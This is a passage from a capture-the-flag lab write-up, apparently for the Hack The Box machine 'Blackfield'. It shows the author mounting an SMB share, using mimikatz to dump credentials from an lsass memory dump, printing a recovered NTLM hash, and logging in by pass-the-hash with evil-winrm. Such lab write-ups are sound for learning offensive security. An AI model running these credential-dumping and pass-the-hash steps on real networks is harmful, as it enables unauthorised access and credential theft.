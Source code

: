  I was able to mount the memory_analysis folder now i tried copying the zip files one at a time.
 ```shell
 sid@kali:~$ sudo mount -t cifs //10.10.10.192/forensic /mnt -o user=audit2020
 Password for audit2020@//10.10.10.192/forensic:  ************
```
After a few tries i was finally able to successfully copy the zip files,turns out that the lsass.zip file contains a .DMP file
So this file is like a dump of the system.
It can have some useful system information maybe even NTLM hashes of Admin or other non admin users! let's copy this
file to a windows machine and run mimikatz on it!
### mimikatz on the .DMP file and the aftermath
This article explains how to get clear text password from a memory dump.<br>
[https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330](https://medium.com/@ali.bawazeeer/using-mimikatz-to-get-cleartext-password-from-offline-memory-dump-76ed09fd3330)
```
mimikatz # sekurlsa::minidump lsass.DMP
mimikatz # sekurlsa::LogonPasswords
```

<img src="/assets/images/mimikatz.png">
so the NTLM hash for the user svc_backup is 9658d1d1dcd9250115e2205d9f48400d<br>
Let's login as svc_backup with Evil-WinRM.
```shell
sid@kali:~$ evil-winrm -i 10.10.10.192 -u svc_backup -H '9658d1d1dcd9250115e2205d9f48400d'                                                              1 ⨯

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

**Evil-WinRM** PS C:\Users\svc_backup\Documents> whoami
blackfield\svc_backup
**Evil-WinRM** PS C:\Users\svc_backup\Documents> cd ../Desktop

**Evil-WinRM** PS C:\Users\svc_backup\Desktop> dir


    Directory: C:\Users\svc_backup\Desktop
```